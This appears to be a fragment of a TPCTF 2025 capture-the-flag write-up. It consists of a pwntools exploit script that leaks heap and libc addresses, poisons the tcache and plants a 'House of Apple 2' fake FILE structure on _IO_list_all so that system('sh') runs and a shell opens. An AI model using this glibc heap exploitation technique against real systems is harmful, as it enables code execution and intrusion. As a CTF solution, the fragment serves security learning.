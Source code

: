 ```python

    leak = get(0, 0)
    heapBase = (u64(leak[0x42d:0x42d + 8]) << 12) - 0x12000
    success(GOLD_TEXT(f"Leak heapBase: {heapBase:#x}"))
    libcBase = u64(leak[0x223d:0x223d + 8]) - main_arena - 0x60 # unsorted bin offset
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    libc.address = libcBase

    heap = heapBase + 0x12330
    # House of Apple 2 payload
    file = flat({
        0:      b'  sh;\0',
        0x28:   1,
        0x68:   libc.symbols['system'],
        0xa0:   heap,
        0xd8:   libc.symbols['_IO_wfile_jumps'],
        0xe0:   heap,
    }, filler=b'\0')

    tosend = flat(b'\x30'.ljust(0x3fd, b'\0'), {
        8:      0x21, # tcache bin 0
        0x10:   PROTECT_PTR(heapBase + 0x122e0, 0), # 0x20's fd
        0x28:   0x411,  # next tcache
        0x50:   file,   # force file at that 0x410 chunk
        0x438:  0x31,   # make heap command happy
        0x468:  0x31,   # our 0x30 tcache to hijack
        0x470:  PROTECT_PTR(heapBase + 0x12740, libc.symbols['_IO_list_all'])
    }, filler=b'\0')

    edit(0, 0, 0x890, tosend)
    for _ in range(6):
        edit(0, 0, 0x20, b'\x30skip')
    edit(0, 0, 0x20, p64(heap))
    leave()
    
    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](/assets/tpctf2025/dbFlag.png)
